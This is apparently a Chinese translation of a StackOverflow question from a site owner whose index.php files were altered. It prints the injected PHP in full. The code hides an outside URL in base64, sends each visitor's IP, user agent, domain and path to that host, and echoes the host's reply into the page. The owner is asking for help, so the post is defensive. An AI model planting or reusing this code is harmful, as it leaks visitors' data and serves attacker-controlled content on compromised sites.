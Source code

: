 # StackOverflow 问答 13599000-13599999

# database - index.php 被黑

> ID：13599004
> 
> 赞同：1
> 
> 时间：2012-11-28T06:20:07.200
> 
> 标签：database, security, web, xss, rows

*刚刚注意到代码被注入到网站目录中的每个 index.php 文件以及同一服务器上其他网站目录中的每个 index.php 文件中！

嗨，我一直在观察我的一个网站上发生的一件奇怪的事情；数据库表中的行神秘地消失了。不是立即，而是在一天的过程中，比如每 30 分钟左右一排。无论如何，我一直在努力找出造成这种情况的原因，但我无法查明消失行的来源。所以我开始怀疑也许其他人正在使用机器人或邪恶的东西来做这件事，尽管对 MySQL 数据的影响并没有造成毁灭性的影响（我认为一个黑客会想要搞砸整个数据库，如果他/她有一个机会......不仅仅是每 30 分钟删除一行）。

所以当我在我的服务器上打开索引文件时，我发现了一段我没有编写的代码块，并且无法理解......表明其他人能够修改服务器上的 index.php 文件。注入的php代码块附在下面：

```
if (!isset($sRetry))
{
global $sRetry;
$sRetry = 1;
// This code use for global bot statistic
$sUserAgent = strtolower($_SERVER['HTTP_USER_AGENT']); //  Looks for google serch bot
$stCurlHandle = NULL;
$stCurlLink = "";
if((strstr($sUserAgent, 'google') == false)&&(strstr($sUserAgent, 'yahoo') == false)&&(strstr($sUserAgent, 'baidu') == false)&&(strstr($sUserAgent, 'msn') == false)&&(strstr($sUserAgent, 'opera') == false)&&(strstr($sUserAgent, 'chrome') == false)&&(strstr($sUserAgent, 'bing') == false)&&(strstr($sUserAgent, 'safari') == false)&&(strstr($sUserAgent, 'bot') == false)) // Bot comes
{
    if(isset($_SERVER['REMOTE_ADDR']) == true && isset($_SERVER['HTTP_HOST']) == true){ // Create  bot analitics            
    $stCurlLink = base64_decode( 'aHR0cDovL2Jyb3dzZXJnbG9iYWxzdGF0LmNvbS9zdGF0RC9zdGF0LnBocA==').'?ip='.urlencode($_SERVER['REMOTE_ADDR']).'&useragent='.urlencode($sUserAgent).'&domainname='.urlencode($_SERVER['HTTP_HOST']).'&fullpath='.urlencode($_SERVER['REQUEST_URI']).'&check='.isset($_GET['look']);
        @$stCurlHandle = curl_init( $stCurlLink ); 
}
} 
if ( $stCurlHandle !== NULL )
{
curl_setopt($stCurlHandle, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($stCurlHandle, CURLOPT_TIMEOUT, 6);
$sResult = @curl_exec($stCurlHandle); 
if ($sResult[0]=="O") 
 {$sResult[0]=" ";
  echo $sResult; // Statistic code end
  }
curl_close($stCurlHandle); 
}
} 
```
